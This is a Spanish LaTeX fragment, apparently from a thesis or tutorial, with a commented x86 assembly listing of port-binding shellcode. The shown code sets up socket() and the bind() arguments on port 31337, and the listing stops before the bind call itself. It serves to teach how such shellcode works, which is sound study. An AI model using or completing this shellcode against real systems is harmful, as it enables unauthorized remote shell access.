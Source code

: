 \documentclass [titlepage, 12pt]{article}
\begin{document}
En el C\'odigo \ref{fig:portBindingASM} se lista el c\'odigo fuente en ensamblador del $port$ $binding$ $shellcode$. Debido a que el c\'odigo es bastante extenso, cada l\'inea tendr\'a su propia explicaci\'on en vez de dar una explicaci\'on conjunta al final. Comentar el c\'odigo permite dar una explicaci\'on mucho m\'as detallada.

\lstset{language=[x86masm]Assembler,caption=C\'odigo del $shellcode$ de vinculaci\'on a un puerto en ensamblador,label=fig:portBindingASM}
\begin{lstlisting}[language={[x86masm]Assembler}]	
		BITS 32
		section .text
		global _start
		_start:

		; syscall socketcall(ebx, ecx) donde ebx = numero funcion y 
		; ecx = direccion de parametros de funcion.

		; s = socket(2, 1, 0);
		; Llamada al sistema 102, socketcall().
		push byte 0x66
		; En eax se almacena el numero 102.
		pop eax
		; Se pone a cero el registro edx.
		cdq
		; Se pone a cero el registro ebx.
		xor ebx, ebx
		; Se construyen los argumentos de la llamada a socket() y 
		; se empilan en orden inverso
		; Dentro de socketcall(), la llamada socket es la numero uno.
		inc ebx
		; Se empila el tercer parametro, protocol = 0.
		push edx
		; Se empila el segundo parametro, SOCK_STREAM = 1.
		push byte 0x1
		; Se empila el primer parametro, AF_INET = 2
		push byte 0x2
		; En ecx se almacena la direccion donde estan ubicados los parametros.
		mov ecx, esp
		; Syscall socketcall() con la funcion socket().
		int 0x80
		
		; Se guarda el descriptor obtenido en esi para usarlo despues
		xchg esi, eax

		; bind(s, [2, 31337, 0], 16);
		; Llamada al sistema 102, socketcall().
		push byte 0x66
		; En eax se almacena el numero 102.
		pop eax
		; Se construyen los argumentos de la llamada a bind() y 
		; se empilan en orden inverso
		; Ebx era 1, ahora es 2. Dentro de socketcall() la llamada bind es la dos.
		inc ebx
		; Se empila el tercer parametro del struct, INADDR_ANY = 0.
		push edx
		; Se empila el segundo parametro del struct, PORT = 31337.
		push word 0x697a
		; Se empila el primer parametro del struct, AF_INET = 2. Ebx = 2.
		push word bx
		; En ecx se almacena la direccion del struct con los parametros.
		mov ecx, esp
		; Se empilan todos los parametros en orden inverso para posteriormente
		; obtener su direccion.
		; Se empila el tamano del struct, sizeof(server_struct) = 16
		push byte 16
		; Se empila la direccion del struct.
		push ecx
		; Se empila el descriptor obtenido anteriormente.
		push esi
		; En ecx se guarda la direccion donde estan todos los parametros.
		mov ecx, esp


\end{lstlisting}
\end{document}
